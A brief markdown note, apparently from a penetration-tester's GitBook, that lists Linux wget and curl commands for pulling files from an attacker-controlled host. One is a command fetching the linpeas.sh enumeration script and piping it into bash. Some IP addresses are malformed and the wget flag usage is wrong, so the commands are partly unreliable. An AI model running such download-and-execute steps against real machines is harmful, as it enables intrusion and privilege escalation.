 # Linux

### wget&#x20;

```
wget http://192.168.119.123:443/whtever

Recursive
wget -R 192.168.110.123 
```

![](<../../../.gitbook/assets/image (40).png>)

### curl

```
curl http://192.168.119./linpeas.sh | bash
curl -O http://1010.10/lol.txt
```

